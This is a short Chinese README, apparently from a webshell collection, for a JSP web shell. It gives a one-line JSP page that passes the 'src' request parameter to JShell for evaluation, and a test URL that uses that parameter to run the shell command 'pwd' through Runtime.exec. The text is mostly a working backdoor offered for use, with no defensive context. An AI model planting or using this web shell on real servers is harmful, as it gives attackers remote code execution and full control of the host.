 readme

![图片](https://raw.githubusercontent.com/tennc/webshell/master/jsp/p2j.cn/20190910185302_297.png)

测试用例：http://localhost:8080/modules/jshell.jsp?src=new%20java.io.BufferedReader(new%20java.io.InputStreamReader(Runtime.getRuntime().exec(%22pwd%22).getInputStream())).readLine()

如果强迫症想撸掉多余的输出：

```
<%=jdk.jshell.JShell.builder().build().eval(request.getParameter("src")).get(0).value().replaceAll("^\"", "").replaceAll("\"$", "")%>
```

from: http://p2j.cn/?p=1874
